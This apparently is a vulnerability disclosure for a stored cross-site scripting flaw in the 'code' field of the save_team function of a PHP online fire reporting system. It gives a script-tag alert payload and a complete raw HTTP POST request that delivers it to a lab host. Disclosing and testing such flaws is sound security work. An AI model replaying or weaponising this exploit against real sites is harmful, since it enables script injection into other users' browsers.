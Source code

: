 # online-fire-reporting-system - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ofrs/classes/Master.php

Vulnerability location: /ofrs/classes/Master.php?f=save_team, code

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/ofrs/classes/Master.php?f=save_team HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------12232441784418479012629232838
Content-Length: 660
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/ofrs/admin/?page=teams/manage_team&id=6
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="id"

6
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="code"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="leader_name"

asd
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="leader_contact"

asd
-----------------------------12232441784418479012629232838
Content-Disposition: form-data; name="members"

asd
-----------------------------12232441784418479012629232838--

```

![](https://github.com/mikeccltt/0525/blob/main/online-fire-reporting-system/xss.gif?raw=true)
